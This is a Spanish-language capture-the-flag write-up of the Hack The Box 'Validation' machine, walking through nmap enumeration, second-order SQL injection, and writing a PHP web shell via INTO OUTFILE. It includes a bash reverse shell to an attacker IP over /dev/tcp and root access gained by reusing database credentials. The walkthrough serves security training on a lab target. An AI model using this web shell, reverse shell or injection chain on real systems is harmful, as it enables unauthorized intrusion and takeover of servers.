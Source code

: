
#  VALIDATION MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/1.png)

## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 -v -n 10.10.11.116 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/2.png)

Vamos a realizar una enumeracion de los servicios en los puertos:

```bash
nmap -p -sV -sC 10.10.11.116 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/3.png)

## EXPLOTACION

veamos la pagina web:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/4.png)

vemos que permite agregar participantes segun un pais:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/5.png)

creamos otro y vemos como se mantienen los participantes:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/6.png)

vamos a verlo desde burp suite:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/7.png)

vemos que devuelve una cokie llamada user, vamos a ver si podemos descifrarlo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/8.png)

usa md5:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/9.png)

la cookie esta almacenando el nombre de usuario en md5, una mala practica.

Vamos a probar un SQLi en el pais al registrar y despues consultamos (refrscamos) la pagina donde muestra los participantes pero con la cookie que se genero:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/10.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/11.png)

vemos que es vulerable a SQLi:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/12.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/13.png)

algo que podemos probar es si tiene permisos para crear un archivo en una ruta especifica:

```bash
select "hola mundo" into outfile '/var/www/html/test.txt'
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/14.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/15.png)

vemos que pudo escribir, esto se debe a que debe tener el privilegio **FILE** asignado, comprobemoslo.

primero obtendremos el usuario:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/16.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/17.png)

ahora consultaremos sus permisos:

```bash
select privilege_type FROM information_schema.user_privileges where grantee = "'uhc'@'localhost'"
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/18.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/19.png)

vemos que tiene el permiso **FILE** asignado.

ademas vemos que la pagina interpreta PHP:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/20.png)

vamos a crear una pagna que pida por GET un parametro y lo ejecute a nivel de sistema:

```php
<?php system($_REQUEST['cmd']); ?>
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/21.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/22.png)

ahora consultamos desde el navegador pero mandamos el parametro por GET "cmd" y le pasmos el comando que queremos ejecutar

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/23.png)

ahora nos mandamos una reverse shell:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.19/4242 0>&1'
```

pero a la hora de mandar algo con espacios es recomendable hacerlo mediante **urlencoded** asi que lo podemos hacer de dos maneras, con la ayuda del decoder de burpsuite dandole a encode as URL y pasando el resultado al parametro cmd:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/24.png)

o con curl:

```bash
curl 10.10.11.116/cmd.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.19/4242 0>&1"'
```

ambos son validos y daran como resultado una reverse shell:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/25.png)

podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/26.png)

## ELEVACION DE PRIVILEGIOS

hacemos un tratamiento de la tty:

```bash
script /dev/null -c bash
[ctrl + Z]
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
stty rows 53 columns 187
```

nos encontramos en el directorio **/var/www/html** y vemos un archivo llamado config.php, estos suelen contener informacion de conexiones y API keys:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/27.png)

vemos unas credenciales de base de datos pero el puerto no esta abierto y tampoco lo esta local, pero no perdemos nada intenta usar para el usuario root ya que es un linux:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/28.png)

somos root y podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/29.png)

### NOTA

si se tiene un SQLi verificar si puede escribir archivos:

```bash
select "hola mundo" into outfile '/var/www/html/test.txt'
```

si necesitas mandar un parametro por GET con espacios es mejor hacer un urlencode.

para tener mayor funcionalidad es recomendable hacer un tratamiento de la TTY.
